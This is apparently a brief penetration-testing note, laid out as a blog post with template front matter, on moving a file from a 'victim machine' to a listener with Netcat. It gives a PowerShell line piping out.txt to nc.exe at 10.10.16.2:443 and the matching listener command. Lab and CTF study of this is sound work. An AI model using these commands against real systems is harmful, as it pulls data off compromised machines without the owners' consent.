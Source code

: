 ```yaml
---
description: >-
  File transfer via Netcat.
title: Netcat File Transfer                 # Add title here
date: 2022-08-29 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer,  Windows - Netcat]                     # Change Templates to Writeup
tags: [file transfer, netcat, windows]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Transfer File
Output the exit of the file towards the netcat listener on the victim machine:
```powershell
type .\out.txt | .\nc.exe -nv 10.10.16.2 443
```
Then redirect the traffic towards the destination file:
```bash
nc -nlvp 443 > out.txt
```

